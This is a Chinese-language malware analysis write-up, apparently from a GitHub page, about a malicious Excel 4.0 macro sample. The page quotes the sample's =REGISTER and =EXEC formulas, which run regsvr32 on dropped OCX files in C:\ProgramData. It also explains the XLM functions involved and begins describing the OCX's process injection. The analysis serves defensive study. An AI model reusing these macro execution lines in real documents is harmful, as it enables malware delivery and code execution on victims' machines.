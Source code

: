 ```=REGISTER(D21,Hertip&"FileA",Tiposa!D20,D23,,Tiposa!D22,Tiposa!D23)```



与时间戳绑定，而且网站经常不能下载。也有可能是验证了UA头为office，或者主要针对国外。

https://s.threatbook.cn/report/file/9891ad11b3a5e308f6ef9b63c9bf2c177a0f6b958752ba7a81d5ca878c376303/?env=win7_sp1_enx64_office2013


=EXEC(E19&"vr32  "&E14&"a\"&E23)

	=EXEC("regsvr32  C:\ProgramData\Hroser1.ocx")

=EXEC(Tiposa1!E19&"vr32 "&Tiposa1!E14&"a\Hroser2.ocx")

	=EXEC("regsvr32  C:\ProgramData\Hroser2.ocx")
	
	=EXEC("regsvr32  C:\ProgramData\Hroser3.ocx")

	=RETURN()

使用[office4.0 反混淆神器](https://github.com/DissectMalware/XLMMacroDeobfuscator) (支持pip安装) 进行反混淆：

![](images/14.jpg)

### Excel 4.0 常用函数

=REGISTER() 

	注册一个DLL或代码资源中的函数，然后此函数就可以被 Excel 4.0 宏语言调用。
	
	https://blog.csdn.net/weixin_30266885/article/details/98029937

=NOW()

	获取当前时间戳

=EXEC()

	执行

=T()

	eg：=T(re&gs)
	
	T函数的功能
	判断引用值是否为文字；
	如果引用了文字，则返回文字；
	如果未引用文字，函数结果为空；

Regsvr32命令用于注册COM组件，是Windows系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行。
WinXP及以上系统的regsvr32.exe在windows\system32文件夹下；2000系统的regsvr32.exe在winnt\system32文件夹下。



## 恶意控件本地行为分析

```Hroser1.ocx```进行的操作：

进程注入：

	NtMapViewOfSection：https://blog.csdn.net/hgy413/article/details/7799843

```